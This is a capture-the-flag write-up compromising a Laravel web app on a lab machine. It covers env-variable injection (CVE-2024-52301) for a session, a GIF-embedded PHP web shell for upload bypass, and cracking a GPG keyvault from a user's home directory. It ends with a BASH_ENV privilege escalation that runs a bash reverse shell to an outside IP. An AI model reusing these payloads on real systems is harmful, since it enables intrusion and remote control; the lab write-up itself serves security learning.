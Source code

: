 # Enumeration

`nmap -sS -sV -p- -v -oN ports.txt 10.10.11.67`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
80/tcp open  http    nginx 1.22.1
```

On the main page, it is possible to send an address email to the app. I tried to send some inputs to make the app crash but didn't get any results.

![](./assets/main.png)

So, I performed a directory enumeration and saw that `mailing` endpoint had a 405 error code.

![](./assets/dir_enumeration.png)

I decided to investigate and discovered that the webapp uses Laravel:

![](./assets/mailing_error.png)

# Arbitrary argument injection (CVE-2024-52301)

I did some research on the laravel version and encounter this [CVE](https://github.com/Nyamort/CVE-2024-52301). It is said that this vulnerability allows the modification of the `env` variable to an arbitrary value. Putting it into test, I got a change on the main page by adding `?--env=Local` in the URI:

![](./assets/main_test.png)

With the directory enumeration, I found a login page:

![](./assets/login.png)

Which I tried to make crash by sending the following payload:

![](./assets/error_login_burp.png)

Then, led to the leak of this piece the code. If the env variable is set to `preprod`, it will create a session:

![](./assets/error_login_debug.png)

So, by adding `?--env=preprod` to the url in the post request, I managed to get a valid session.

![](./assets/preprod_use.png)

# False Lead

Having this session, the `/management/profile` endpoint was available. In this page, it was possible to update a new profile picture:

![](./assets/profile.png)

Since CVE-2025-27515 didn't have any exploit, I first try to mess with parameters:

![](./assets/upload_error.png)

![](./assets/upload_error_debug.png)

It led to nothing so I changed of method. I decided to look for other endpoints.

![](./assets/info_enum.png)

The endpoint `info` is at first not available but if you add `?--env=preprod` as seen previously with the login form, you get the php info file:

![](./assets/php_info.png)

And in this file, there is the app key used by laravel to encrypt the different cookies

![](./assets/api_key.png)

I used this [tool](https://github.com/synacktiv/laravel-crypto-killer) to decrypt the session cookie but it was useless as I already was kind of "admin" and that I had to guess the session id if I wanted to change user.

# Improper Neutralization (CVE-2025-27515)

Coming back to this CVE, it says that this Laravel version doesn't handle file uploading as it should and that a bypass was possible. Looking for file upload bypasses, I found one interesting: https://github.com/thorsten/phpMyFAQ/security/advisories/GHSA-pwh2-fpfr-x5gf.
The objective (same method than png in fact) is to create a gif file and adding a "comment" in which a php payload is hidden.

`convert -size 100x100 xc:none meow.gif`

`gifsicle < meow.gif --comment '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' > meow.php`

Just uploading the php file wasn't enough to bypass the security. I tried to add a `.` at the end of the extension file to make it work:

![](./assets/rce_payload.png)

![](./assets/rce_id.png)

It works fine but I preferred to use an interactive reverser shell:

![](./assets/reverse_shell_payload.png)

![](./assets/reverse_shell.png)

# User Hish

![](./assets/database_location.png)

My first thought was to retrieve the database from the application to obtain `hish` password.

`sqlite3 database.sqlite` (I used `nc` to transfer the file in my machine)

![](./assets/inside_db.png)

The only user availabe on the machine is `hish`, so I tried to crack his hash `$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi` with hashcat but it was taking too long.

At the same time, I saw that all files in the `/home/hish` directory was readable, especially the `.gnupg` directory which could be used to decipher the `keyvault.gpg` file present in the backup folder. 

![](./assets/hish_home_content.png)

In oder to decrypt the file I had to copy the .gnupg set up into a writeable directory which could then allow me to decrypt the keyvault file and retrieve the password:

![](./assets/gnu_copy.png)

I used the second password to authenticate as `hish`

![](./assets/hish_id.png)

# Root

This user can run a binary as root:

![](./assets/sudo_l.png)


But, one interesting thing about these permissions is the possibility of setting the environment variable `BASH_ENV`. This variable can link to a source file that will be executed before the run binary.

I wrote a reverse shell into a file and executed the command:

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.19/4444 0>&1
```

![](./assets/root_payload.png)

And here I got my reverse shell:

![](./assets/root.png)